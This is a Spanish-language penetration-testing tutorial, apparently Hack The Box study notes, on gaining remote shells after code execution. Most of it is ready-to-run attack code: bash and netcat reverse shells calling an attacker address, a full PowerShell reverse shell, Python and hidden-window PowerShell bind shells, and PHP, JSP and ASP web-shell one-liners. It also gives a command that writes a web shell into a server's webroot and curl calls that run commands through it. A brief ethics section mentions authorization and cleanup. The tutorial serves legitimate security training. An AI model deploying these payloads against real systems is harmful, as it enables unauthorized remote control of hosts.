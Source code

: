 # Tipos de shells

Una vez comprometido un sistema y lograda la RCE (Remote Code Execution), necesitamos un método **fiable** para comunicarnos con el host sin re‑explotar cada vez. Ese método es obtener acceso directo a un **shell** del sistema (Bash en Linux/Unix o PowerShell en Windows).

Además del acceso autenticado vía **SSH (Secure Shell)** en Linux o **WinRM (Windows Remote Management)** en Windows (cuando disponemos de credenciales), contamos con tres tipos principales de shells:

| Tipo de shell     | Método de comunicación                                                                                                                                                                                   |
| ----------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Reverse Shell** | El host comprometido se **conecta de vuelta** a nuestra máquina atacante.                                                                                                                                |
| **Bind Shell**    | El host comprometido **escucha** en un puerto y **nos conectamos** a él.                                                                                                                                 |
| **Web Shell**     | Se comunica a través del **servidor web** (HTTP (Hypertext Transfer Protocol)/HTTPS (Hypertext Transfer Protocol Secure)), ejecutando comandos recibidos por parámetros y mostrando la salida en la web. |

---

## Reverse Shell (conexión inversa)

### 1) Iniciar un listener con Netcat (nc)

```bash
nc -lvnp 1234
```

**Flags:**

* `-l` (listen): modo escucha.
* `-v` (verbose): salida detallada.
* `-n` (no DNS): evita resolución DNS.
* `-p 1234`: puerto local a la escucha.

### 2) Comprobar nuestra IP (interfaz VPN tun0 en HTB)

```bash
ip a
```

Salida esperada (extracto):

```
3: tun0: <...>
    inet 10.10.10.10/23 scope global tun0
```

### 3) Lanzar la carga (payload) de reverse shell desde el objetivo

**Bash (Linux):**

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

**Bash/SH alternativa (Linux):**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

**PowerShell (Windows):**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

**Ejemplo de conexión recibida:**

```bash
nc -lvnp 1234
# listening on [any] 1234 ...
# connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Ventaja: rápido y sencillo. Desventaja: frágil; si se corta, hay que re‑lanzar el payload.

---

## Bind Shell (conexión directa hacia el objetivo)

El objetivo abre un puerto y asocia su shell a ese puerto; luego **nos conectamos** desde la máquina atacante.

### 1) Lanzar bind shell en el objetivo

**Bash (Linux):**

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

**Python (Python):**

```python
python -c 'exec("""import socket as s,subprocess as sp;\ns1=s.socket(s.AF_INET,s.SOCK_STREAM);\ns1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);\ns1.bind((\"0.0.0.0\",1234));\ns1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

**PowerShell (Windows):**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

### 2) Conectarnos desde la máquina atacante

```bash
nc 10.10.10.1 1234
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Ventaja: si se corta nuestra conexión, podemos reconectar. Desventaja: depende de que el puerto siga abierto/servicio activo.

---

## Actualización de TTY (conseguir PTY interactivo)

Al obtener un shell por Netcat, suele ser **no interactivo** (sin historial, sin edición de línea). Podemos mejorarlo:

### 1) Elevar a PTY (Pseudo‑TTY) con Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### 2) Poner en segundo plano, ajustar terminal y volver al foreground

```text
www-data@remotehost$ ^Z
```

```bash
stty raw -echo
fg

# pulsa Enter dos veces, o escribe 'reset' si es necesario
```

### 3) Ajustar tamaño y tipo de terminal

Obtener variables locales:

```bash
echo $TERM
stty size
```

Ejemplo de ajuste en el shell remoto:

```bash
export TERM=xterm-256color
stty rows 67 columns 318
```

---

## Web Shell

Un **Web Shell** es un script (p. ej., PHP (Hypertext Preprocessor), JSP (JavaServer Pages), ASP (Active Server Pages)) que recibe el comando por parámetros HTTP y devuelve la salida.

### 1) One‑liners típicos

**PHP:**

```php
<?php system($_REQUEST["cmd"]); ?>
```

**JSP:**

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**ASP (Active Server Pages):**

```asp
<% eval request("cmd") %>
```

### 2) Ubicación del webroot (raíces por defecto)

* **Apache:** `/var/www/html/`
* **Nginx:** `/usr/local/nginx/html/`
* **IIS (Internet Information Services):** `C:\inetpub\wwwroot\`
* **XAMPP:** `C:\xampp\htdocs\`

### 3) Escribir el shell en el webroot (ejemplo Apache + PHP)

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### 4) Ejecutar comandos vía navegador o cURL

**Navegador:**

```
http://SERVER_IP:PORT/shell.php?cmd=id
```

**cURL (Client URL):**

```bash
curl "http://SERVER_IP:PORT/shell.php?cmd=id"
```

Salida esperada:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> Ventajas: suele evadir restricciones porque usa puertos web (80/443); persiste tras reinicios si el archivo queda en disco. Desventajas: menos interactivo (se puede semi‑automatizar con un script en Python (Python)).

---

## Notas operativas y ética

* Siempre dentro de **alcance y autorización** del cliente.
* Considera cortafuegos/NAT: Reverse Shell puede requerir reenvío de puertos; Bind Shell puede quedar bloqueado por filtros.
* Tras obtener acceso, **registra evidencias** y realiza **limpieza** (elimina backdoors/web shells si no están acordados para persistencia).

---

*Fin del documento.*
